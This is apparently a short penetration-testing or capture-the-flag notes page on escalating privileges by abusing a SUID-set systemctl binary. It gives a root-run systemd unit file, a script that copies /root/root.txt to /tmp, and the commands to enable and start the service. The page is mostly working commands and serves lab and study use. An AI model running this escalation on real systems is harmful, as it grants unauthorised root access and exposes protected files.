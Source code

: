 # systemctl
> Introspect and control the state of the `systemd` system and service manager.

---

## Exploit [[suid]] `systemctl`

### Define the service (i.e., `/dev/shm/tgihf.service`)

```
[Unit]
description=tgihf

[Service]
Type=simple
User=root
ExecStart=/dev/shm/tgihf.sh

[Install]
WantedBy=mutli-user.target
```

### Write the script to execute with elevated privileges (i.e., `/dev/shm/tgihf.sh`)

```bash
#!/bin/bash
cat /root/root.txt > /tmp/root.txt
```

Ensure that it is executable! `chmod +x /dev/shm/tgihf.sh`

### Enable the service

```bash
systemctl enable /dev/shm/tgihf.service
```

### Start the service

```bash
systemctl start tgihf
```